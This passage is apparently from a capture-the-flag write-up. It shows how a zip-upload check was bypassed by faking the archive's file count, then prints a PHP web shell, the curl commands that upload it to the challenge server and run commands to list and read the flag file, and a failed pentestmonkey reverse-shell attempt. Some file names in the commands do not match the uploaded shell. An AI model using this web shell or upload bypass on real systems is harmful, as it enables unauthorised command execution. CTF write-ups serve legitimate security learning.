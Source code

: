 Right at the end we notice that two values seem unique to each zip; this value represents the number of files in the archive. So if trick the upload code to think that there's only one file, it won't perform a regex check against out php code! Let's give it a shot.

```bash
echo "<?php if(_GET['chai']){ system(_GET['chai']); } ?>" > sh.php

zip ota.zip ota sh.php
    adding: ota (stored 0%)
    adding: sh.php (deflated 22%)

curl http://195.201.136.29:8087 -F zip=@ota.zip
    files/35b3b565956486899c204c899c799747a0d9ab6584d89bcd7b62db6abcdf267c

curl http://195.201.136.29:8087/files/35b3b565956486899c204c899c799747a0d9ab6584d89bcd7b62db6abcdf267c?chai=ls
    ota
    sh.php
```

Perfect! Now we can go get the flag.

```bash
curl http://195.201.136.29:8087/files/35b3b565956486899c204c899c799747a0d9ab6584d89bcd7b62db6abcdf267c/ota.php\?chai\=ls+/
    bin
    boot
    dev
    etc
    flag_WRLJSth9Xq54q5ZGNv8ppAT9.php
    home
    lib
    lib64
    media
    mnt
    opt
    proc
    root
    run
    sbin
    srv
    sys
    tmp
    usr
    var

curl http://195.201.136.29:8087/files/35b3b565956486899c204c899c799747a0d9ab6584d89bcd7b62db6abcdf267c/bbb.php\?chai\=cat+/flag_WRLJSth9Xq54q5ZGNv8ppAT9.php
    <?php
    'hxp{please_ask_gynvael_for_more_details_on_zips_:>}';
```

Note: We tried a reverse PHP shell (specifically [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell)) and it seems the application won't allow reverse connections (as expexted). See output below.
```bash
curl http://195.201.136.29:8087/files/3075a1f1910f2c423d852b164f57856f37b1bdc3fb5834b7ad0a9614c1495d23/rsh.php\
    WARNING: Failed to daemonise.  This is quite common and not fatal.
    Connection refused (111)
```
